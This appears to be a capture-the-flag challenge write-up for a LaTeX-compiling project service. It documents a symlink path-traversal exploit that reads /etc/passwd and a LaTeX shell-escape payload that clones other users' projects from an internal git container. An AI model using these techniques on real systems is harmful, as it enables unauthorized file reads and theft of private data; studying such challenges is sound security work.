 # Vulnerabilities

## Arbitrary Read

- Category: Path traversal
- Difficulty: Medium
  It is possible to upload a symlink to a file via git. The endpoint `/api/files/download/:id/*` will follow this symlink read the file.

## Authentication Bypass

- Category: Authentication
- Difficulty: Medium

# Exploits

## Arbitrary Read

- Create an account
- Create a project
- Clone the project to your local machine:

```bash
$ git clone http://127.0.0.1:8080/git/d475a0513dcd1e5b3c7239420a58729d9b49360c2c5c277bc9eb1c0d7dacc954
Cloning into 'd475a0513dcd1e5b3c7239420a58729d9b49360c2c5c277bc9eb1c0d7dacc954'...
Username for 'http://127.0.0.1:8080': a
Password for 'http://a@127.0.0.1:8080':
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 3 (delta 0), reused 0 (delta 0)
Unpacking objects: 100% (3/3), 334 bytes | 334.00 KiB/s, done.
$ cd d475a0513dcd1e5b3c7239420a58729d9b49360c2c5c277bc9eb1c0d7dacc954/
$ ls -la
total 16
drwxrwxr-x  3 hllm hllm 4096 Jun  1 21:06 .
drwxrwxrwt 23 root root 4096 Jun  1 21:06 ..
drwxrwxr-x  8 hllm hllm 4096 Jun  1 21:06 .git
-rw-rw-r--  1 hllm hllm  216 Jun  1 21:06 main.tex
```

- Create a symlink and push it to the repo

```bash
$ ln -s /etc/passwd link
$ git add . && git commit -m "Added symlink to /etc/passwd"
$ git push
```

- Pull the changes by clicking on `Pull` in the project view
- Open the `link` now present in the file list

## Authentication Bypass

LaTeX can be used to run code[¹](https://0day.work/hacking-with-latex/), this is a feature of this service, however, this also allows acces to the `nginx-git` container.
This container itself dose not check for any authentication when cloning.

- Create a project
- Upload a file containing

```tex
\documentclass[12pt]{scrartcl}
\usepackage{verbatim}
\begin{document}
    \input{|"echo XGJlZ2lue3ZlcmJhdGltfQ== | base64 --decode; git clone http://nginx-git/ID; cat ./ID/main.tex; echo XGVuZHt2ZXJiYXRpbX0= | base64 --decode"}
\end{document}
```

- Compile this file
- The resulting pdf will contain `main.tex` of the proeject with the corrosponding id
